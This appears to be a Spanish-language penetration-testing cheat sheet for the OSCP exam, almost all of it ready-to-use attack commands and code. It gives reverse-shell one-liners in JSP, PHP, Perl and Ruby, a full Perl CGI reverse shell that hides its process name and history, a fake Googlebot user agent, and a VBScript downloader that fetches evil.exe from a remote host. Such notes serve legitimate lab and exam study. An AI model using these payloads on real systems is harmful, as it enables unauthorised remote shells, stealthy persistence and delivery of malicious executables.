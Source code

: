 # Seccion de explotacion

## Shell reversa

Previamente `export PAYLOAD=<nombre-payload>; export LHOST=<IP-local>; export LPORT=<puerto local>`

### Multi Handler
1) Generar un Multi Handler automatico --> `$OSCP/explotacion/multi-handler/generator.sh $PAYLOAD $LHOST $LPORT`

### Shell reversas

2) JSP  --> `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw > shell.jsp`

3) PHP  --> `$OSCP/explotacion/reverse-shells/php-reverse/generator.sh $LHOST $LPORT`

2) PHP simplificada --> `<?php echo shell_exec("exec 97<>/dev/tcp/IP_LOCAL/PUERTO;sh <&97 >&97 2>&97; id");?>`


5) PERL --> `perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

6) RUBY --> `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

7) CGI --> https://github.com/ferreirasc/oscp/blob/master/payloads/reverse_shell.cgi 
<pre>
#!/usr/bin/perl -w
use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

<b># Where to send the reverse shell.  Change these.
my $ip = '10.11.0.44';
my $port = 1234;</b>

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any 
		# source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
	cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

	if ($auth) {
		unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
			cgiprint("ERROR: Your client isn't authorised to view this page");
			cgiexit();
		}
	}
} elsif ($auth) {
	cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
	cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
	my $pid = fork();
	if ($pid) {
		cgiexit(0); # parent exits
	}

	setsid();
	chdir('/');
	umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
	cgiprint("Sent reverse shell to $ip:$port");
	cgiprintpage();
} else {
	cgiprint("Couldn't open reverse shell to $ip:$port: $!");
	cgiexit();	
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"/bin/sh"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
	my $line = shift;
	$line .= "<p>\n";
	$global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
	cgiprintpage();
	exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
	print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
</pre>

## Utilidades

8) __User-agent falso__ --> `Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)`

9) __Cewl__ construir diccionario --> `cewl http://IP/DIR>>cewl`

10) __nc64.exe en bin__ https://github.com/pedroarias1015/oscp/blob/master/explotacion/bin/nc64.exe

11) __Descargar fichero con wbs en windows__ https://gist.github.com/sckalath/ec7af6a1786e3de6c309
<pre>
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs


#After you've created wget.vbs
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
</pre>


